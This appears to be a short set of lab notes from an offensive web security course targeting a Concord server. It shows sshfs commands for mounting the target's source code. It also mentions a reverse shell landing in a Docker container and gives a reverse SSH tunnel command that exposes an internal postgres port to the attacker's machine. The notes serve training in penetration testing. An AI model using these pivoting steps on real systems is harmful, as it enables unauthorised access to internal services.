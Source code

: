 We can remote mount the concord directories with:
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.43.0 /home/vagrant/Desktop/awae/concord/part-1/1.43
```
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.83.0 /home/vagrant/Desktop/awae/concord/part-1/1.83
```
Part 1 ExtraMile:  
Our reverse shell lands us in a docker container.  
We should promote the shell to a fully interactive tty.  
Python2.7 is installed on the container.  
In order to access the postgres port with our java client from our kali box we can do a reverse tunnel (from within the reverseshell):
```bash
ssh -N -R 5432:172.18.0.4:5432 tunnelboy@192.168.119.130 -o "StrictHostKeyChecking=no"
```
We can build our jdbc client with compile.ps1  